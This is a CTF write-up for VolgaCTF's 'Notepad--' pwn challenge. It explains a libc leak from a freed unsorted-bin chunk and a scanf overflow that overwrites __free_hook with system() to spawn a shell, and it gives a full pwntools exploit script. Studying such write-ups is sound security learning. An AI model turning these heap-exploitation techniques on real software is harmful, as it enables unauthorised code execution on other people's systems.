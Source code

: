 # Notepad--

This 300 pointer challenge was the solo Pwn challenge in VolgaCTF and I solved it just after the CTF ended :(. The following exploit is tested on a Ubuntu 18.04 VM.

Here’s the description of the challenge:

```
Notepad– is the app to store your most private notes, with an extremely
lightweight UI. Check it out!
```
We are just given the challenge binary for this challenge. Also, the 64-bit dynamically linked stripped binary had all the protections enabled other than FORTIFY.

## Reversing
The Notepad application presents us a menu function which looks like:

```
Welcome to Notepad--
Pick an existing notebook or create a new one
[p]ick notebook
[a]dd notebook
[d]elete notebook
[l]ist notebook
[q]uit

>
```
The structure of the notebook and tab is as follows,
```
struct notebook { char name[16];
                  int number_of_tabs;
                  struct tab tabs[64]; 
                 }

struct tabs { char name[16];
              int size;
              char* content; 
            }
```

So the functionality allows you to pick a notebook by giving the index as index_of_notebook + 1  and to try out the functionalities of tabs.

```
Operations with notebook "aaaaaaa"
[a]dd tab
[v]iew tab
[u]pdate tab
[d]elete tab
[l]ist tabs
[q]uit

>
```
This let’s you add a tab, view the data in each tab ( (len(data_it_prints) is equal to tab->size) , list all the names of tabs in a notebook, delete a tab and go back to the previous menu. So hoping that the functionalities of the binary is clear let’s move on!

## Vulnerability and the exploit

### Getting the leaks

As the libc is not given and as PIE and RELRO are fully enabled the best way to get the leaks here is to allocate an unsorted bin chunk, free it and view it. As the binary uses malloc() the libc pointers are retained after allocation provided we give an empty content. Here’s what I did:

- Allocated a chunk of size 0x500 bytes so that after freeing it goes to the unsorted bin

- Deleted the chunk using delete_tab functionality
- Allocated another chunk of size 0x20. Malloc would split the previous chunk and allocate me a chunk of 0x30 size (0x10 for the header).

- The allocated chunk had the first 2 0x8 bytes set to a libc pointer

- Did a view and got the leaks by calculating the offsets

Mind you, I did this locally and not on the server. To get which libc the binary is using you might have to look up the last 3 nibbles in the libc database to get the libc version the challenge is using!

### Overwriting the free_hook

The first obvious bug in the binary is the manner in how it takes in the name of the notebook and the tab. It takes the input through scanf( “%s”, name) which makes it obvious that it is prone to the classic buffer overflow! Here’s the code snippet of the add_notebook functionality:

``` C
int add_notebook()
{
__int64 v1; // rax
char *v2; // ST08_8

if ( nb_ctr == 16 )
return puts("You've reached the limit for notebooks! Delete some of the older once first!");
v1 = nb_ctr++;
v2 = (char *)&table + 2072 * v1;
printf("Enter notebook name: ");
return __isoc99_scanf("%s", v2);
}
```
Now, that you have got the leaks you can find the address of free_hook which is a libc pointer that is invoked when the program calls free(chunk). To carry out the final exploit our aim is now to overwrite the free_hook. To do this we do have to explore another vulnerability which lies in the update_tab functionality.

Update_tab function let’s you update any tab of the index lesser than notebook->number_of_tabs.

```
Enter index of tab to update: 1
Enter new tab name (leave empty to skip): 
Enter new data length (leave empty to keep the same): 
Enter the data:
```
And as you can see in above if the new length is same as the previous it just simply lets you update the content pointed by the data pointer. Otherwise, it frees the current data pointer and calls a malloc() with a size. What if I could overwrite tabs->data pointer with free_hook and call an update functionality without giving a different size? Let’s see what we can do!

- Add another note (as first one was used for the leaks) and using scanf(“%s”,name) overflow junk in place of name but overwrite size with a valid size and data pointer with free_hook.

- Pick that note and update tab with index 1.

- As discussed above, leave data length empty, point free_hook to system().

- Free a chunk holding the string “/bin/sh\x00” and BOOM!!!

## Exploit Code

```python
from pwn import *
 
r = process('./notepad')
# notebook functionalities
def add_note(name):
    r.sendlineafter('>','a')
    r.sendlineafter('name: ',name)
 
def pick_note(): #display items
    r.sendlineafter('>','l')
 
def dele_note(idx):
    r.sendlineafter('>','d')
    r.sendlineafter('Enter index of a notebook to delete:',str(idx))
 
def pick_note(idx):
    r.sendlineafter('>','p')
    r.sendlineafter('pick: ',str(idx))
 
#tab functionalities
def add_tab(name,length,data):
    r.sendlineafter('>','a')
    r.sendlineafter('name: ',name)
    r.sendlineafter('Enter data length (in bytes): ',str(length))
    r.sendlineafter('data: ',data)
 
def view_tab(idx):
    r.sendlineafter('>','v')
    r.sendlineafter('view: ',str(idx))
 
def list_tab():
    r.sendlineafter('>','l')
 
def update_tab(idx,name,length,data):
    r.sendlineafter('>','u')
    r.sendlineafter('update: ',str(idx))
    r.sendlineafter('skip): ',name)
    r.sendlineafter('same): ',str(length))
    r.sendlineafter('data: ',data)
 
def del_tab(idx):
    r.sendlineafter('>','d')
    r.sendlineafter('delete: ',str(idx))
def quit_tab():
    r.sendlineafter('>','q')
 
add_note('a'*0x10)
pick_note(1)
add_tab('b'*0x10,0x500, '')
add_tab('c'*0x10,0x10,'/bin/sh\x00')
del_tab(1)
add_tab('d'*0x10,0x20,'')
view_tab(2)
print(r.recvline())
rcvd = r.recvline()
leak = u64('\xd0'+rcvd[:7])
libc_base = leak - 0x3ec0d0
quit_tab()
 
#leaked pointers
free_hook = libc_base + 0x3ed8e8
system = libc_base + 0x4f440
 
#final exploit
sizeof_nb = 0x818
offset_tab = 0x18
offset_data = 0x18
sizeof_filler = offset_tab+offset_data-0x8
filler = b'a'*(sizeof_filler)+p64(0x30)
 
add_note(filler+p64(free_hook))
pick_note(2)
update_tab(1,'b'*0x8,'',p64(system))
 
print(hex(free_hook))
print(hex(libc_base))
 
quit_tab()
pick_note(1)
del_tab(1)
#gdb.attach(r)
r.interactive()
```
The challenge was a simple yet interesting one! I got a shell locally for this but was too late to try it on the server and get the flag. Anyways, I’m glad I could solve it!








